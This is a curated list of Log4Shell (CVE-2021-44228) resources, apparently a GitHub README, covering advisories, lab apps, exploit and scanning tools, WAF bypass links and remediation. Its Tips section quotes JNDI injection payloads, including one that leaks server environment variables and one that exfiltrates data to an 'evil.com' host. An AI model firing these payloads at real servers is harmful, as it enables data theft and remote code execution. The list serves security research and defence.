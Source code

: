 # TL;DR

Term | Description
---|---
**Log4j** | The vulnerable Java Library
**JndiLookup** | The vulnerable part of Log4j
**CVE-2021-442228** | The initial vulnerability
**Log4Shell** | The exploit developped to attack this vulnerability
**CVE-2021-45046** | The second vulnerability (bypass that causes denial of service)

[Source: CVE-2021-44228 Log4j (and Log4Shell) Executive Explainer by cje@bugcrowd](https://www.slideshare.net/caseyjohnellis/cve202144228-log4j-and-log4shell-executive-explainer-by-cjebugcrowd) (modified to add the second CVE)

![Log4Shell-timeline](https://user-images.githubusercontent.com/35920302/146178407-14f764fa-a2f9-4024-9265-0aeaa1a03599.png)

[Source: cutekernel.github.io](https://cutekernel.github.io/technical-illustrations/cves-2021.html)

![log4j_attack](https://user-images.githubusercontent.com/35920302/146178704-84116a6f-1016-43c4-b1f3-0552dfa0fb03.png)

[Source: govcert.ch](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

![log4shell png](https://user-images.githubusercontent.com/35920302/146170447-915c1f09-8b34-4390-8f1b-95f9cf892c7a.jpeg)

[Source: musana.net](https://musana.net/2021/12/13/log4shell-Quick-Guide/)

# Technical analysis
- [Log4j Analysis: More JNDI Injection](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)
- [Rapid7 analysis](https://attackerkb.com/topics/in9sPR2Bzt/cve-2021-44228-log4shell/rapid7-analysis): Includes PoCs for Apache Struts2, VMWare VCenter, Apache James, Apache Solr, Apache Druid, Apache JSPWiki and Apache OFBiz

# Advisories
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
- [CVE-2021-44228 on NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

# Videos
- [What do you need to know about the log4j (Log4Shell) vulnerability?](https://www.youtube.com/watch?v=oC2PZB5D3Ys) (Great breakdown of the vulnerability in the first 15 min)
- [Short demo by @MalwareTechBlog](https://www.youtube.com/watch?v=0-abhd-CLwQ)
- [CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE! (and SO MUCH MORE)](https://www.youtube.com/watch?v=7qoPDq41xhQ)
- [Log4Shell, The Worst Java Vulnerability in Years](https://www.youtube.com/watch?v=m_AkCbFc8DM)

# Intentionally vulnerable apps
- [Solar, exploiting log4j (TryHackMe room by @_JohnHammond)](https://tryhackme.com/room/solar)
- [PentesterLab Log4j RCE](https://pentesterlab.com/exercises/log4j_rce/course) & [Log4j RCE II](https://pentesterlab.com/exercises/log4j_rce_ii/course)
- [BugHuntr.io scenario](https://twitter.com/BugHuntrIo/status/1469298538593067012)
- [christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

# Tools & Exploits
- [woodpecker-appstore/log4j-payload-generator](https://github.com/woodpecker-appstore/log4j-payload-generator)
- [tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)
- [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)
- [Thinkst Canary](https://twitter.com/thinkstcanary/status/1469439743905697797)
- [Huntress Log4Shell Tester](https://log4shell.huntress.com)
- [log4shell.nse](https://github.com/righel/log4shell_nse) (Nmap NSE script that injects a Huntress/CanaryTokens/custom log4shell payload in HTTP requests described by JSON templates)
- [@SilentSignalHU’s Log4Shell Scanner (Burp extension)](https://twitter.com/Burp_Suite/status/1470418532475314177)
- [ActiveScan++](https://twitter.com/albinowax/status/1469258291616403457)
- [fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan) & [How to combine it with Amass for higher coverage](https://twitter.com/jeff_foley/status/1470463924260777985)
- [Burp Bounty Pro Profile](https://twitter.com/BurpBounty/status/1469249786092085249)
- [whwlsfb/Log4j2Scan](https://github.com/whwlsfb/Log4j2Scan) (Passive Scanner plugin for Burp)
- [Semgrep rule](https://semgrep.dev/r?q=log4j-message-lookup-injection)
- [CodeQL query](https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql)
- [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)
- [Burp Intruder in Pitchfork mode](https://twitter.com/ITSecurityguard/status/1470187651844161536)
- [LogMePwn](https://github.com/0xInfection/LogMePwn)

# Tips
- [The Log4J formatting is nestable which means payloads like `${jndi:ldap://${env:user}.xyz.collab.com/a}` will leak server side env vars](https://twitter.com/_StaticFlow_/status/1469358229767475205)
- [Tutorial on setting up RogueJDNI](https://twitter.com/ITSecurityguard/status/1469347404986077185)
- [Class path is useful information to have to know what gadgets should be available or where you need to look for some to get rce.](https://twitter.com/jstnkndy/status/1469752457618202624)
- [How to attack any JDK version for log4j "without" guessing classpath on server?](https://twitter.com/aaditya_purani/status/1470487281572237312)
- [Some events are only logged when an exception occur, so specially long payloads with unexpected characters may help you trigger those exceptions.](https://twitter.com/pwntester/status/1470435811812380675)
- [If you omit the closing brace `}` (so the payload would look like `${jndi:ldap://evil.com/`), you will potentially get a bunch of data exfiltrated to your server until the next `}` appears in that data](https://twitter.com/TomAnthonySEO/status/1470374984749133825)
- [Attack path works in *ANY* java version](https://twitter.com/marcioalm/status/1470361495405875200)
- [If you’re scanning for Log4Shell at scale, you can easily determine which host is pinging back by adding it to the start of your callback hostname](https://twitter.com/hakluke/status/1469875175839584257)

# WAF bypasses
- <https://twitter.com/wugeej/status/1469982901412728832>
- <https://twitter.com/BountyOverflow/status/1470001858873802754>
- <https://twitter.com/h4x0r_dz/status/1469663187079417857>
- <https://twitter.com/ymzkei5/status/1469765165348704256>
- <https://twitter.com/wireghoul/status/1469473975449255941>
- <https://twitter.com/Rezn0k/status/1469523006015750146>
- <https://twitter.com/Laughing_Mantis/status/1470526083271303172>

# Mega threads
- [Reddit mega thread curated by NCC Group](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)

# Remediation
- [Guide: How To Detect and Mitigate the Log4Shell Vulnerability (CVE-2021-44228)](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

# Some vulnerable apps/vendors
- [YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
- [20211210-TLP-WHITE_LOG4J.md](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [NCSC-NL/log4shell](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md)
- [ZAP](https://www.zaproxy.org/blog/2021-12-10-zap-and-log4shell/)
- [Ingenuity, the Mars 2020 Helicopter mssion](https://twitter.com/TheASF/status/1400875147163279374)
- [VCenter](https://twitter.com/w3bd3vil/status/1469814463414951937)
- [Ghidra](https://twitter.com/zhuowei/status/1469186818549719042)
- [Apache JAMES SMTP server](https://twitter.com/dlitchfield/status/1469809966785564675)

# TODO
Add headers, payloads, data that can be exfiltarted, entry point examples & tools to receive OOB DNS requests.
